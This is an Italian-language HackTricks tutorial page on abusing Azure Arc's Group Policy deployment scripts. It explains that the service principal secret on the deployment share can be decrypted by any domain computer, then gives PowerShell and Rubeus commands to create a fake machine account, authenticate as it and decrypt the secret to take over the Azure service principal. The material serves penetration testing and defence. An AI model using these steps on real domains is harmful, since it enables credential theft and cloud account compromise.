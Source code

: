 # Az - Script di distribuzione GPO vulnerabile di Azure Arc

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Esperto Red Team di HackTricks AWS)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

- Se desideri vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
- Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
- Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
- **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
- **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

### Identificazione dei problemi

Azure Arc consente l'integrazione di nuovi server interni (server del dominio connessi) in Azure Arc utilizzando il metodo dell'oggetto Group Policy. Per facilitare ciò, Microsoft fornisce un toolkit di distribuzione necessario per avviare la procedura di integrazione. All'interno del file ArcEnableServerGroupPolicy.zip, è possibile trovare i seguenti script: DeployGPO.ps1, EnableAzureArc.ps1 e AzureArcDeployment.psm1.

Quando eseguito, lo script DeployGPO.ps1 esegue le seguenti azioni:

1. Crea il GPO di integrazione dei server Azure Arc all'interno del dominio locale.
2. Copia lo script di integrazione EnableAzureArc.ps1 nella condivisione di rete designata creata per il processo di integrazione, che contiene anche il pacchetto di installazione di Windows.

Durante l'esecuzione di questo script, gli amministratori di sistema devono fornire due parametri principali: **ServicePrincipalId** e **ServicePrincipalClientSecret**. Inoltre, richiede altri parametri come il dominio, l'FQDN del server che ospita la condivisione e il nome della condivisione. Ulteriori dettagli come l'ID tenant, il gruppo di risorse e altre informazioni necessarie devono essere forniti anche allo script.

Un segreto crittografato viene generato nella directory AzureArcDeploy sulla condivisione specificata utilizzando la crittografia DPAPI-NG. Il segreto crittografato è memorizzato in un file chiamato encryptedServicePrincipalSecret. Evidenze di ciò possono essere trovate nello script DeployGPO.ps1, dove la crittografia viene eseguita chiamando ProtectBase64 con $descriptor e $ServicePrincipalSecret come input. Il descrittore è composto dai SID dei gruppi Domain Computer e Domain Controller, garantendo che il ServicePrincipalSecret possa essere decifrato solo dai gruppi di sicurezza Domain Controllers e Domain Computers, come indicato nei commenti dello script.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Sfruttare

Abbiamo le seguenti condizioni:

1. Abbiamo penetrato con successo nella rete interna.
2. Abbiamo la capacità di creare o assumere il controllo di un account computer all'interno di Active Directory.
3. Abbiamo scoperto una condivisione di rete contenente la directory AzureArcDeploy.

Ci sono diversi metodi per ottenere un account macchina all'interno di un ambiente AD. Uno dei più comuni è sfruttare il limite dell'account macchina. Un altro metodo coinvolge il compromettere un account macchina attraverso ACL vulnerabili o varie altre misconfigurazioni.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Una volta ottenuto un account macchina, è possibile autenticarsi utilizzando questo account. Possiamo utilizzare il comando runas.exe con il flag netonly o utilizzare pass-the-ticket con Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Utilizzando il TGT per il nostro account computer memorizzato in memoria, possiamo utilizzare lo script seguente per decifrare il segreto principale del servizio.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativamente, possiamo utilizzare [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

A questo punto, possiamo raccogliere le informazioni rimanenti necessarie per connetterci ad Azure dal file ArcInfo.json, che è memorizzato nella stessa condivisione di rete del file encryptedServicePrincipalSecret. Questo file contiene dettagli come: TenantId, servicePrincipalClientId, ResourceGroup e altro. Con queste informazioni, possiamo utilizzare Azure CLI per autenticarci come il service principal compromesso.

## Riferimenti

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)
